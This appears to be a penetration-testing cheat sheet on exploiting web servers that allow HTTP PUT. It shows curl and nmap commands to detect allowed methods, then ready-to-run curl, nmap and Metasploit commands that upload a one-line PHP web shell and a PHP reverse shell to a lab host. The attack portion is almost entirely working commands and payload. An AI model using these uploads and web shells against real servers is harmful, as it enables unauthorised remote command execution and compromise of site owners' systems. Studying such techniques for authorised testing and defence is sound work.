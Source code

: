 ```yaml
---
description: >-
  If the HTTP PUT method is enabled on the webserver it can be used to upload a
  specified resource to the target server, such as a web shell, and execute it.
---
```


# HTTP PUT

## Determining allowed HTTP methods:

### Curl

```text
curl -v -X OPTIONS http://192.168.124.131/test/
```

### Nmap

```text
nmap --script http-methods --script-args http-methods.url-path='/test',http-methods.test-all -p 80 192.168.124.131
```

## Exploiting HTTP PUT for shell

### Curl

```text
curl -v -X PUT -d '<?php echo shell_exec($_GET[“cmd”]);?>' http://192.168.124.131/test/shell.php
```

### Nmap

```text
nmap -p 80 192.168.124.131 --script http-put --script-args http-put.url='/test/shell2.php',http-put.file='/root/Documents/php-reverse-shell.php'
```

### Metasploit

```text
use auxiliary/scanner/http/http_put
set rhosts 192.168.124.131
set rport 80
set path /test
set filename shell3.php
set filedata file://root/Documents/php-reverse-shell.php
run
```

